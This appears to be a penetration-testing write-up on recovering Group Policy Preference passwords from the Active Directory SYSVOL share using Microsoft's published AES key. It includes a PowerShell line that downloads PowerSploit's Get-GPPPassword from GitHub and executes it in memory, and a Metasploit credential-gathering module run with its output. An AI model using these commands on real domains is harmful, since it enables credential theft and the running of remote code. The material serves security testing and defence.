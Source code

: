 **Authors**: < [nixawk](https://github.com/nixawk) >

----

## Passwords in SYSVOL & Group Policy Preferences

This method is the simplest since no special “hacking” tool is required. All the attacker has to do is open up Windows explorer and search the domain SYSVOL DFS share for XML files. Most of the time, the following XML files will contain credentials: groups.xml, scheduledtasks.xml, & Services.xml.

SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. SYSVOL contains logon scripts, group policy data, and other domain-wide data which needs to be available anywhere there is a Domain Controller (since SYSVOL is automatically synchronized and shared among all Domain Controllers). All domain Group Policies are stored here: \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\

When a new GPP is created, there’s an associated XML file created in SYSVOL with the relevant configuration data and if there is a password provided, it is AES-256 bit encrypted which should be good enough…

Except at some point prior to 2012, [Microsoft published the AES encryption key (shared secret) on MSDN](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) which can be used to decrypt the password. Since authenticated users (any domain user or users in a trusted domain) have read access to SYSVOL, anyone in the domain can search the SYSVOL share for XML files containing “cpassword” which is the value that contains the AES encrypted password.

With access to this XML file, the attacker can use the AES private key to decrypt the GPP password. The PowerSploit function Get-GPPPassword is most useful for Group Policy Preference exploitation. The screenshot here shows a similar PowerShell function encrypting the GPP password from an XML file found in SYSVOL.

```
PS C:\Users\Administrator\Desktop> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1")
PS C:\Users\Administrator\Desktop> Get-GPPPassword
```

```
msf post(gpp) > show options

Module options (post/windows/gather/credentials/gpp):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ALL      true             no        Enumerate all domains on network.
   DOMAINS  THEGEEKSTUFF     no        Enumerate list of space seperated domains DOMAINS="dom1 dom2".
   SESSION  1                yes       The session to run this module on.
   STORE    true             no        Store the enumerated files in loot.

msf post(gpp) > run

[*] Checking for group policy history objects...
[-] Error accessing C:\ProgramData\Microsoft\Group Policy\History : stdapi_fs_ls: Operation failed: The system cannot find the path specified.
[*] Checking for SYSVOL locally...
[+] SYSVOL Group Policy Files found locally
[*] Enumerating the user supplied Domain(s): THEGEEKSTUFF...
[*] Enumerating DCs for THEGEEKSTUFF on the network...
[-] ERROR_NO_BROWSER_SERVERS_FOUND
[-] No Domain Controllers found for THEGEEKSTUFF
[*] Searching for Group Policy XML Files...
[*] Post module execution completed
```
